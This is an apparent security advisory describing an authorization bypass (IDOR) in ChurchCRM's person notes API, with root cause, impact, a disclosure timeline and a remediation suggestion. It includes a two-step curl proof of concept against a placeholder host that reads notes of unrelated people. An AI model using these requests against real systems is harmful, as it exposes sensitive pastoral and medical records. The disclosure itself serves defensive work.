

# IDOR on Person Notes — Cross-Person Unauthorized Access

**Product:** ChurchCRM  
**Version:** 7.3.3 (earlier versions likely affected)  
**CVE:** Pending  
**CWE:** CWE-639 — Authorization Bypass Through User-Controlled Key  
**Severity:** Medium  
**CVSS 4.0:** 5.3 — `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N`  
**Discovered:** 2026-06-10  
**Author:** Caio Chagas  

---

## Description

The `GET /api/person/{id}/notes` endpoint returns notes for any person in the system to any user who holds the Notes role. There is no check that the requester is actually permitted to access notes for that specific person — the person ID in the URL is trusted without object-level authorization.

## Root Cause

`api/routes/people/notes.php` applies two middlewares: `AuthMiddleware` (user is logged in) and `NotesRoleAuthMiddleware` (user has the Notes role). Neither one verifies whether the authenticated user has a relationship to the person being queried. The route handler fetches notes by `$person->getId()` directly and returns them, relying entirely on role membership as a proxy for access control — which it is not.

Private notes are guarded by `$note->isVisible($currentUser->getId())`, so they are not exposed. Public notes for any person are.

## Impact

- A user with the Notes role can enumerate all person IDs and read every public note in the system, regardless of any relationship to those people
- Notes may contain sensitive pastoral, medical, or personal information entered by staff
- The same user can also create notes on arbitrary person records (write IDOR via `POST /api/person/{id}/notes`)

## Proof of Concept

```bash
# Step 1 — authenticate as a low-privilege user with Notes role
curl -s -c cookies.txt -X POST "http://TARGET/churchcrm/session/begin" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "User=lowpriv&Password=lowpass123"

# Step 2 — read notes for a person the requester has no relation to
curl -s -b cookies.txt "http://TARGET/churchcrm/api/person/9126/notes"
```

**Expected response:**
```json
{
  "notes": [
    {
      "id": 339,
      "text": "...",
      "private": false,
      "dateEntered": "2026-06-10"
    }
  ]
}
```

HTTP 200 is returned with note content for a person the authenticated user has never interacted with.

## Evidence



## Affected Component

| Field | Value |
|-------|-------|
| Endpoint | `GET /api/person/{id}/notes` (read), `POST /api/person/{id}/note` (write) |
| File | `api/routes/people/notes.php` |
| Middleware | `NotesRoleAuthMiddleware` (role check only, no entity check) |
| Auth required | Yes — Notes role |

## Timeline

| Date | Event |
|------|-------|
| 2026-06-10 | Vulnerability discovered and confirmed |
| 2026-06-10 | Vendor notified via GitHub Security Advisories |
| TBD | CVE ID assigned |
| TBD | Patch released |
| TBD | Public disclosure |

## Remediation

Add an object-level authorization check before returning notes: verify that the requesting user is a member of the same family, holds a pastoral assignment for that person, or is an administrator. A helper like `$currentUser->canAccessPerson($person)` should gate both the read and write paths.

## References

- [ChurchCRM source](https://github.com/ChurchCRM/CRM)
- [Affected file](https://github.com/ChurchCRM/CRM/blob/master/api/routes/people/notes.php)
